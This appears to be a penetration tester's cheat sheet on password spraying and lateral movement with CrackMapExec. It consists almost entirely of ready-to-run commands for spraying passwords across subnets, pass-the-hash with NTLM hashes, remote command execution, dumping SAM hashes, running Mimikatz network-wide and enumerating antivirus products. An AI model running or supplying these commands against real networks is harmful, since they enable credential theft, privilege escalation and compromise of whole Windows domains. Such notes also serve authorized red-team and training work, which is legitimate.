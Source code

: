 

Password Spraying



CrackMapExec

```
CrackMapExec is installed on Kali or get Windows Binary from Github.

Has 3 Execution Methods
crackmapexec smb <- Creating and Running a Service over SMB
crackmapexec wmi <- Executes command over WMI
crackmapexec at <- Schedules Task with Task Scheduler

Can execute plain commands with -X flag i/e 

crcakmapexec smb 10.10.14.0/24 -x whoami

crcakmapexec smb 10.10.14.0/24 <- Host Discovery
crackmapexec smb 10.10.14.0/24 -u user -p 'Password' 
crackmapexec smb 10.10.14.0/24 -u user -p 'Password' --pass-pol
crackmapexec smb 10.10.14.0/24 -u user -p 'Password' --shares


Can also PTH with CME

crackmapexec smb 10.10.14.0/24 -u user -H e8bcd502fbbdcd9379305dca15f4854e

cme smb 10.8.14.14 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:e8bcd502fbbdcd9379305dca15f4854e --local-auth --shares 


--local-auth is for Authenticating with Local Admin, good if Organisaton uses same local admin hash through network and not using LAPS

Dump Local SAM hashes

crackmapexec smb 10.10.14.0/24 -u user -p 'Password' --local-auth --sam

Running Mimikatz 

crackmapexec smb 10.10.14.0/24 -u user -p 'Password' --local-auth -M mimikatz

^ Very noisy but yes you can run mimikatz across a WHOLE network range. RIP Domain Admin

Enum AV Products

crackmapexec smb 10.10.14.0/24 -u user -p 'Password' --local-auth -M enum_avproducts
```



Mail Sniper
